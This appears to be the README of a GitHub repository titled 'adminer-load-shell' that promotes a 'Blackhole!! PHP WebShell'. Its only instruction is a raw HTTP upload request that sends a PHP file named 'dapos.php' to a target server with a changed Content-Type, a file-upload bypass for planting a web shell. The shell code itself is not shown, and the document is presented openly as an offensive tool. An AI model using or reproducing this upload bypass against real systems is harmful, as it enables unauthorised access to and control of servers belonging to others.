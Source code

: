 # adminer-load-shell


</h1>
<h4 align="center">Blackhole!! PHP WebShell</h4>

<p align="center">
    <img src="https://img.shields.io/badge/release-Prv8-blue.svg">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
    <img src="https://img.shields.io/badge/php-7-green.svg">
    <img src="https://img.shields.io/badge/php-5-green.svg">
</p>

1. Change the `Content-Type` value
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php
```

